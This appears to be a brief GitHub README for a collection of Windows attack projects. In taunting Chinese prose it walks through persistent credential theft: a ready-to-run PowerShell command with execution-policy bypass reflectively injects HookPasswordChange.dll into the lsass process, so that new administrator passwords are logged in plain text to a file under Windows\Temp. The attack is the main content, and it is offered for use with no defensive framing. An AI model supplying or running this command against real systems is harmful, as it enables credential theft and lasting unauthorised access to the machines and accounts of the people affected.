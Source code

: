Misc-Windows-Hacking
====================

Miscellaneous projects related to attacking Windows.


都已经拿到管理员密码了，你还想怎样？没错，我不仅要拿你的密码，就算你修改新的密码，我也要知道！
准备HookPasswordChange.dll和Invoke-ReflectivePEInjection.ps1文件，然后运行该powershell脚本将dll注入到lsass进程中。执行命令：
powershell –exec bypass –Command "& {Import-Module 'C:\Invoke-ReflectivePEInjection.ps1';Invoke-ReflectivePEInjection -PEPath C:\HookPasswordChange.dll –procname lsass}" 

成功安装，当管理员修改密码的时候会记录下新的密码，且以文本的形式保存在c:\windows\temp\passwords.txt
